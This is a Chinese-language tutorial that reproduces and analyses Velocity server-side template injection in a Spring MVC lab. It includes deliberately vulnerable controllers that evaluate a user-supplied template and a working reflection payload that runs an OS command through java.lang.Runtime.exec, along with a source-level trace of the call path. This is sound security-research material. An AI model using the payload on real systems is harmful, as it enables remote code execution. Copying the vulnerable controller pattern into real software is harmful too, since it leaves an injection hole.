velocity的SSTI复现与分析 前言 前面我们分析过了Thymeleaf的模板注入，我们今天继续来看另外一个模板注入。
Apache Velocity是一个基于Java的Web页面模版引擎，够帮我们实现页面静态化，同时它将Java代码与网页分开，并为Java Server Pages（JSP）提供了可行的替代方案。下面我们就从零开始学习复现Velocity模板注入，触发的方法主要是两种，分别使用了evaluate和merge；使用的是Spring MVC框架来整合的Velocity模板。Velocity模板也算是比较老了，目前已经逐渐被取代。
声明：**文章中涉及的内容可能带有攻击性，仅供安全研究与教学之用，读者将其信息做其他用途，由用户承担全部法律及连带责任，文章作者不承担任何法律及连带责任。
环境搭建 velocity官网：https://velocity.apache.org/
注意⚠️：
Spring4.3之后不再直接支持velocity
Spring Boot 在 2.4 版本之后不再直接支持 Velocity 模板引擎
所以需要使用springmvc或者springboot框架来构建复现的时候需要注意版本号；这里我使用的spirngmvc来进行复现。

创建完毕之后，自行添加Java目录和resources目录。
在resources目录里面创建；springmvc.xml文件
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 <?xml version="1.0" encoding="UTF-8" ?> <beans xmlns ="http://www.springframework.org/schema/beans" xmlns:xsi ="http://www.w3.org/2001/XMLSchema-instance" xmlns:context ="http://www.springframework.org/schema/context" xmlns:mvc ="http://www.springframework.org/schema/mvc" xsi:schemaLocation ="http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd http://www.springframework.org/schema/context http://www.springframework.org/schema/context/spring-context.xsd http://www.springframework.org/schema/mvc http://www.springframework.org/schema/mvc/spring-mvc.xsd" > <mvc:annotation-driven /> <context:component-scan base-package ="com.garck3h" > </context:component-scan > <bean id ="velocityConfig" class ="org.springframework.web.servlet.view.velocity.VelocityConfigurer" > <property name ="resourceLoaderPath" value ="/WEB-INF/views/" /> </bean > <bean id ="viewResolver" class ="org.springframework.web.servlet.view.velocity.VelocityViewResolver" > <property name ="cache" value ="true" /> <property name ="prefix" value ="" /> <property name ="suffix" value =".vm" /> </bean > </beans >
在web.xml里面配置
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 <!DOCTYPE web-app PUBLIC "-//Sun Microsystems, Inc.//DTD Web Application 2.3//EN" "http://java.sun.com/dtd/web-app_2_3.dtd" > <web-app > <display-name > Archetype Created Web Application</display-name > <servlet > <servlet-name > dispatcherServlet</servlet-name > <servlet-class > org.springframework.web.servlet.DispatcherServlet</servlet-class > <init-param > <param-name > contextConfigLocation</param-name > <param-value > classpath:springmvc.xml</param-value > </init-param > </servlet > <servlet-mapping > <servlet-name > dispatcherServlet</servlet-name > <url-pattern > /</url-pattern > </servlet-mapping > </web-app >
完整的pom.xml如下：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 66 67 68 69 70 71 72 73 74 75 76 77 78 79 80 81 82 83 <?xml version="1.0" encoding="UTF-8" ?> <project xmlns ="http://maven.apache.org/POM/4.0.0" xmlns:xsi ="http://www.w3.org/2001/XMLSchema-instance" xsi:schemaLocation ="http://maven.apache.org/POM/4.0.0 http://maven.apache.org/xsd/maven-4.0.0.xsd" > <modelVersion > 4.0.0</modelVersion > <groupId > org.example</groupId > <artifactId > Velocity_SSTI</artifactId > <version > 1.0-SNAPSHOT</version > <packaging > war</packaging > <name > Velocity_SSTI Maven Webapp</name > <url > http://www.example.com</url > <properties > <project.build.sourceEncoding > UTF-8</project.build.sourceEncoding > <maven.compiler.source > 1.7</maven.compiler.source > <maven.compiler.target > 1.7</maven.compiler.target > </properties > <dependencies > <dependency > <groupId > org.springframework</groupId > <artifactId > spring-context-support</artifactId > <version > 4.1.5.RELEASE</version > </dependency > <dependency > <groupId > org.springframework</groupId > <artifactId > spring-webmvc</artifactId > <version > 4.1.5.RELEASE</version > </dependency > <dependency > <groupId > org.apache.velocity</groupId > <artifactId > velocity</artifactId > <version > 1.7</version > </dependency > <dependency > <groupId > org.apache.tomcat.embed</groupId > <artifactId > tomcat-embed-core</artifactId > <version > 9.0.73</version > </dependency > </dependencies > <build > <finalName > Velocity_SSTI</finalName > <pluginManagement > <plugins > <plugin > <artifactId > maven-clean-plugin</artifactId > <version > 3.1.0</version > </plugin > <plugin > <artifactId > maven-resources-plugin</artifactId > <version > 3.0.2</version > </plugin > <plugin > <artifactId > maven-compiler-plugin</artifactId > <version > 3.8.0</version > </plugin > <plugin > <artifactId > maven-surefire-plugin</artifactId > <version > 2.22.1</version > </plugin > <plugin > <artifactId > maven-war-plugin</artifactId > <version > 3.2.2</version > </plugin > <plugin > <artifactId > maven-install-plugin</artifactId > <version > 2.5.2</version > </plugin > <plugin > <artifactId > maven-deploy-plugin</artifactId > <version > 2.8.2</version > </plugin > </plugins > </pluginManagement > </build > </project >
在WEB-INF里面创建一个文件夹views，再在views文件夹中创建一个模板文件：hello.vm
1 2 3 4 5 6 7 8 9 <html > <head > <title > Hello</title > </head > <body > <h1 > Hello, $name </h1 > </body > </html >

创建一个controller包之后创建一个controller控制器：MyController.java
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 package com.garck3h.controller; /** * Created by IntelliJ IDEA. * * @Author Garck3h * @Date 2023/6/25 2:30 下午 * Life is endless, and there is no end to it. **/ import org.springframework.stereotype.Controller; import org.springframework.ui.Model; import org.springframework.web.bind.annotation.RequestMapping; @Controller public class MyController { @RequestMapping("/hello") public String demo(Model model) { // 向模板中添加数据 model.addAttribute("name", "Hello, Velocity!"); // 返回Velocity模板路径 return "hello"; } }

启动tomcat进行访问：http://192.168.108.154:8090/hello

常用语法
输出变量；在模板中，$name表示一个变量，当模板被渲染时，变量会被替换为具体的值。
条件判断：使用#if、#else和#end语句可以进行条件判断，根据条件的真假来执行不同的操作。
1 2 3 4 5 #if($age >= 18) You are an adult. #else You are a minor. #end
迭代循环：通过#foreach语句可以对集合进行迭代循环，并在每次循环中使用$item表示当前迭代的元素。
1 2 3 #foreach($item in $items) $item #end
导入外部包：使用#import语句可以导入外部Java类，以便在模板中使用其方法和属性。
1 #import("com.example.MyClass")
字符串拼接：可以使用#set指令将字符串赋值给变量，并通过直接引用变量进行字符串拼接。
1 2 3 4 #set($firstName = "John") #set($lastName = "Doe") $firstName $lastName
1 2 <p > Name: $person.name</p > <p > Age: $person.age</p >
调用静态方法：假设存在一个名为mathUtil的Java类，其中有一个静态方法add(a, b)，则可以通过$mathUtil.add(5, 3)来调用该静态方法并将结果赋值给变量。
1 2 #set($result = $mathUtil.add(5, 3)) Result: $result
漏洞分析 evaluate触发 evaluate方法使用VelocityEngine的evaluate方法来执行Velocity模板的评估。用户输入通过HttpServletRequest对象获取，并放入VelocityContext中进行渲染。
我们分别创建一个Controller和一个evaluate.vm（WEB-INF/views/evaluate.vm）模板文件
VelocityInjectionController.java
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 package com.garck3h.controller;import org.apache.velocity.Template;import org.apache.velocity.VelocityContext;import org.apache.velocity.app.VelocityEngine;import org.apache.velocity.runtime.RuntimeConstants;import org.apache.velocity.runtime.resource.loader.ClasspathResourceLoader;import org.springframework.stereotype.Controller;import org.springframework.web.bind.annotation.RequestMapping;import org.springframework.web.servlet.ModelAndView;import javax.servlet.http.HttpServletRequest;import javax.servlet.http.HttpServletResponse;import java.io.IOException;import java.io.StringWriter;@Controller public class VelocityInjectionController { @RequestMapping("/evaluate") public ModelAndView evaluate (HttpServletRequest request, HttpServletResponse response) throws IOException { String template = request.getParameter("template" ); VelocityContext context = new VelocityContext (); context.put("params" , request.getParameterMap()); VelocityEngine engine = new VelocityEngine (); StringWriter sw = new StringWriter (); engine.evaluate(context, sw, "TemplateInjectionTest" , template); ModelAndView modelAndView = new ModelAndView ("evaluate" ); modelAndView.addObject("evaluate" , sw.toString()); return modelAndView; } }
evaluate.vm
1 2 3 4 5 6 7 8 <html> <head> <title>Welcome</title> </head> <body> <h1>Hello, $evaluate</h1> </body> </html>
启动之后我们在浏览器进行访问，并且给template进行传参

当我输入如下的payload，即可执行命令弹计算器。
payload分析：
1 2 3 4 5 6 #set($e="e")：定义了一个Velocity变量$e，并赋值为字符串"e"。 $e.getClass()：获取变量$e的运行时类。 .forName("java.lang.Runtime")：通过反射加载java.lang.Runtime类。 .getMethod("getRuntime", null)：使用反射获取Runtime类的getRuntime方法，该方法返回Runtime类的实例。 .invoke(null, null)：使用反射调用getRuntime方法，参数为null，因为该方法不接受任何参数。这将返回Runtime类的实例。 .exec("open -a calculator")：使用Runtime类的实例的exec方法执行操作系统命令。在这里，命令是open -a calculator，即打开Mac的计算器

当执行来到engine.evaluate；我们跟进去，直接就看到了RuntimeInstance.evaluate；最后会调用 render 方法将解析后的内容渲染到 writer 中，并返回渲染结果。

我们跟进到render；这里主要实现的是将解析后的节点树渲染到指定的写入器中。
首先在634行调用 nodeTree.init对节点树进行初始化。接着调用 nodeTree.render将节点树渲染到写入器中。

我们跟进去到render。这里主要实现的是获取节点树的子节点数量，并使用 for 循环遍历所有子节点。通过 jjtGetChild(i) 方法获取第 i 个子节点，并调用其 render 方法来渲染子节点内容到指定的写入器中。

继续跟进jjtGetChild(i).render；最后来到了ASTReference.render.
先判断this.referenceType 的值是否为 4；然后判断this.escaped 的值为false

继续跟进来之后，就到了ASTMethod.execute。这里接受一个 Object 对象和一个 InternalContextAdapter 对象作为参数。我们直接看到
64行调用 method.invoke(o, params) 方法执行方法调用，并将结果存储在 obj 变量中。

跟进去查看invoke；判断方法是否为可变参数方法，如果是就进行一系列操作。最后调用doInvoke方法执行实际的方法调用，并返回结果。
而doInvoke方法，正是下面的doInvoke方法

即最后调用的是Java反射里面的invoke，进行执行


思考了一下，也可能存在XSS，于是反射的XSS尝试

merge触发 merge方法使用VelocityEngine的getTemplate方法获取指定的模板文件，然后使用merge方法将模板和上下文数据合并为最终结果。
创建一个servlet
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 package com.garck3h.controller;import org.apache.velocity.Template;import org.apache.velocity.VelocityContext;import org.apache.velocity.app.VelocityEngine;import org.apache.velocity.runtime.RuntimeConstants;import org.apache.velocity.runtime.resource.loader.ClasspathResourceLoader;import org.springframework.stereotype.Controller;import org.springframework.web.bind.annotation.RequestMapping;import org.springframework.web.servlet.ModelAndView;import javax.servlet.http.HttpServletRequest;import javax.servlet.http.HttpServletResponse;import java.io.IOException;import java.io.StringWriter;@Controller public class VelocityInjectionController { @RequestMapping("/merge") public ModelAndView merge (HttpServletRequest request, HttpServletResponse response) throws Exception { String template = request.getParameter("template" ); VelocityEngine engine = new VelocityEngine (); engine.setProperty(RuntimeConstants.RESOURCE_LOADER, "classpath" ); engine.setProperty("classpath.resource.loader.class" , ClasspathResourceLoader.class.getName()); engine.init(); VelocityContext context = new VelocityContext (); context.put("params" , request.getParameterMap()); Template tpl = engine.getTemplate(template); StringWriter sw = new StringWriter (); tpl.merge(context, sw); ModelAndView modelAndView = new ModelAndView ("hello" ); modelAndView.addObject("hello" , sw.toString()); return modelAndView; } }

当我们能上传或者更改vm的时候，我们插入一下的内容到vm模板中
再在resources/templates中新建一个模板：merge.vm
1 #set($e="e" );$e.getClass().forName("java.lang.Runtime" ).getMethod("getRuntime" ,null ).invoke(null ,null ).exec("open -a calculator" )

启动项目之后进行访问即可执行模板里面的代码，当然这个${name}是我hello模板里面的内容。
